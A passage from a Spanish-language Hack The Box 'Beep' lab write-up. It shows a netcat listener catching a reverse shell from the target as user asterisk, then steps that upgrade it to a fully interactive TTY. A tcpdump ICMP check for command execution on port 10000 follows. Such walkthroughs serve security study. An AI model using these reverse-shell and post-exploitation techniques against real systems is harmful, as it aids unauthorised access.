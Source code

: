 Ahora toca hacer un tratamiento de la *TTY*.

```
root@kali:/# nc -vnlp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.7] 51160
bash: no job control in this shell
bash-3.2$ whoami
asterisk
bash-3.2$ id
uid=100(asterisk) gid=101(asterisk) groups=101(asterisk)
bash-3.2$ script /dev/null -c bash
bash-3.2$ ^Z
zsh: suspended  nc -vnlp 443
                                                                                                                                                                                
┌──(root㉿kali)-[/home/…/Documents/htb/beep/tmp]
└─# stty raw -echo; fg
[1]  + continued  nc -vnlp 443

Erase set to delete.
Kill set to control-U (^U).
Interrupt set to control-C (^C).
bash-3.2$ 
```

* `script /dev/null -c bash`: Este comando ejecuta una sesión de intérprete de comandos Bash.
* CTRL+Z: Esta combinación de teclas detiene temporalmente el proceso y lo pasa a segundo plano.
* `stty raw -echo; fg`: Esta combinación de comandos configura el terminal en modo raw, sin eco, y reanuda el proceso detenido en primer plano.
* "reset xterm": Después de ejecutar el comando anterior hay que ingresar esta cadena (tal vez al escribirla no se vea, pero estará ahí) para restablecer la terminal.

Por último, hay que exportar dos variables de entorno y ajustar las filas y las columnas de la terminal.

Con `stty size` puedes ver dichas proporciones.

```
bash-3.2$ export TERM=xterm
bash-3.2$ export SHELL=bash
bash-3.2$ stty rows 48 columns 175
bash-3.2$ 
```

Ahora tengo acceso con una terminal completamente interactiva.

<a name="explotacion-10000-tcp"></a>
## Puerto 10000/TCP

Para comprobar que se estén ejecutando los comandos en la máquina victima, me enviaré una traza *ICMP* a mi máquina local.

Primero, me pondré en escucha con `tcpdump`.

```
root@kali:/# tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```
